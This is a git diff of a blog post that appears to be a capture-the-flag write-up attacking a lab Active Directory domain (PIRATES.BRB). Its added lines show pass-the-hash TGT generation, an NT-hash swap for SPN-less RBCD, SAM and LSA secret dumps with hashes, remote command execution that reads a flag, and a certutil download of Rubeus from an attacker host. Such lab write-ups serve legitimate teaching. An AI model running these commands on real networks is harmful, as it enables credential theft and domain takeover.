

Before and after one commit to thesecretmyth/thesecretmyth.github.io, a Jekyll site: the page built from _posts/2026-09-17-dead-men-tell-no-spns.md, in a window 1280 px wide and 1400 px high, scrolled down 11381 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
dead-men-tell-no-spns

````diff
--- a/_posts/2026-09-17-dead-men-tell-no-spns.md
+++ b/_posts/2026-09-17-dead-men-tell-no-spns.md
@@ -117,6 +117,7 @@
     | grep -E '^(Username|Temp Password):' \
     | awk -F': *' '{gsub(/^ +| +$/,"",$2); print $2}' \
     | paste - - | sed 's/\t/:/'
+
 blackbeard:TempPass2024!@#
 ruby:NewHire789$%^
 jack:Welcome123!&*
@@ -460,14 +461,27 @@
 
 RBCD is supposed to be a controlled delegation mechanism — the resource decides who can impersonate on it, and the impersonation is scoped to the service. On `JOLLYROGER`, the service we care about is CIFS, the file share, because a CIFS ticket is a tunnel onto the host. The S4U2Self step asks the KDC for a service ticket for `morgan` to `cifs/JOLLYROGER.PIRATES.BRB`, and the S4U2Proxy step asks the KDC to issue a proxy ticket impersonating `Administrator` on that same service — the proxy being allowed because `morgan` now holds the RBCD right on `JOLLYROGER$`.
 
-We already hold `morgan`'s TGT somewhere earlier in the session — the notes don't show the mint explicitly, but `morgan.ccache` is on disk when the relay fires, and that TGT is what makes the rest of the chain legible. Its session key is the long-term key we want `morgan`'s NT hash to become:
+To make the rest of the chain legible, we need to mint `morgan`'s TGT. But we can't just request it the standard way.
+
+> **Note:** Supplying a plaintext password yields an AES256 TGT with a 32-byte session key, which breaks our chain. We authenticate using *only* the NT hash to force an RC4 downgrade, giving us the exact 16-byte session key we need.
+
+```zsh
+➜ pypykatz crypto nt 'Entry369@!*'
+52bb96aecbcfe774799a60da76212a54
+
+➜ nxc smb blackpearl.pirates.brb \
+    -u 'morgan' -H '52bb96aecbcfe774799a60da76212a54' \
+    --generate-tgt morgan.ccache
+```
+
+Its session key is the long-term key we want `morgan`'s NT hash to become:
 
 ```zsh
 ➜ describeTicket.py morgan.ccache | grep 'Ticket Session Key'
 [*] Ticket Session Key            : b03b513de8ffc8ed466601a40f0fb044
 ```
 
-`morgan`'s NT hash at the time of the change is `52bb96aecbcfe774799a60da76212a54` — the hash the DC currently has on file for `morgan` (from the SAM dump or a credential the session already recovered; the notes show it as the authenticator for the change call). We use it to authenticate the password change RPC, and tell the DC to replace `morgan`'s NT hash with the session key we already hold:
+`morgan`'s NT hash at the time of the change is `52bb96aecbcfe774799a60da76212a54` — the hash the DC currently has on file for `morgan`. We use it to authenticate the password change RPC, and tell the DC to replace `morgan`'s NT hash with the session key we already hold:
 
 ```zsh
 ➜ nxc smb blackpearl.pirates.brb \
@@ -505,14 +519,33 @@
 ...[snip]...
 SMB         jollyroger.pirates.brb 445    JOLLYROGER       [+] PIRATES.BRB\Administrator through S4U+U2U with morgan (Pwn3d!)
 SMB         jollyroger.pirates.brb 445    JOLLYROGER       [*] Dumping SAM hashes
-...[snip: local accounts]...
+SMB         jollyroger.pirates.brb 445    JOLLYROGER       Administrator:500:aad3b435b51404eeaad3b435b51404ee:4dae99ecd2b1b0bc6cc48538ea284347:::
+...
+SMB         jollyroger.pirates.brb 445    JOLLYROGER       pirate1:1001:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
+SMB         jollyroger.pirates.brb 445    JOLLYROGER       pirate2:1002:aad3b435b51404eeaad3b435b51404ee:5ca58736d81038078d384c62d1cf70c0:::
+SMB         jollyroger.pirates.brb 445    JOLLYROGER       pirate3:1003:aad3b435b51404eeaad3b435b51404ee:cfb5a4babcb0e75776d1efcc1e3cd03c:::
+...
 SMB         jollyroger.pirates.brb 445    JOLLYROGER       [*] Dumping LSA secrets
 SMB         jollyroger.pirates.brb 445    JOLLYROGER       PIRATES\JOLLYROGER$:aes256-cts-hmac-sha1-96:949584026e4d0f1588e2dafda8defd278b3d0b6ba0489618ee6821f0e8698338
-...[snip]...
+...
 SMB         jollyroger.pirates.brb 445    JOLLYROGER       PIRATES\JOLLYROGER$:aad3b435b51404eeaad3b435b51404ee:cb6df3097b82ef7eccfb287a8fd103dc:::
 ```
 
-The SAM dump gives us the local accounts on `JOLLYROGER` — the local Administrator, the pirates, vagrant. The LSA dump gives us something more useful for the rest of the chain: `JOLLYROGER$`'s machine account keys, in three forms — AES256, AES128, and DES. A domain-joined machine account authenticates to the domain with a password derived from its SID and a rotation schedule, stored locally as these keys. Possess them, and you can authenticate as the machine account anywhere the domain trusts it.
+The SAM dump gives us the local accounts on `JOLLYROGER` — the local Administrator, the pirates, etc..
+
+```zsh
+➜ nxc smb jollyroger.pirates.brb \
+    -u 'administrator' -H '4dae99ecd2b1b0bc6cc48538ea284347' --local-auth \
+    -x 'type C:\Flag\flag.txt'
+
+...[snip]...
+SMB         192.168.10.11   445    JOLLYROGER       brb{c4e5da3432481f8b0eb6ba4a86e5d4b9}
+SMB         192.168.10.11   445    JOLLYROGER       Congratulations! You've compromised JOLLYROGER via NTLMv1 relay and SPN-less RBCD!
+```
+
+That's **flag four**.
+
+The LSA dump gives us something more useful for the rest of the chain: `JOLLYROGER$`'s machine account keys, in three forms — AES256, AES128, and DES. A domain-joined machine account authenticates to the domain with a password derived from its SID and a rotation schedule, stored locally as these keys. Possess them, and you can authenticate as the machine account anywhere the domain trusts it.
 
 The machine account's NT hash and plain password are also in the LSA dump:
 
@@ -738,6 +771,10 @@
 
 ```powershell
 PS > certutil -urlcache -f -split http://192.168.10.131/Rubeus.exe Rubeus.exe
+
+PS > .\rubeus.exe triage
+...[snip]...
+ | 0x3e4   | queenrev$ @ PIRATES.BRB | krbtgt/PIRATES.BRB                      | 9/15/2026 1:29:23 PM |
 
 PS > .\rubeus.exe tgtdeleg /nowrap
 [*] Action: Request Fake Delegation TGT (current user)
````
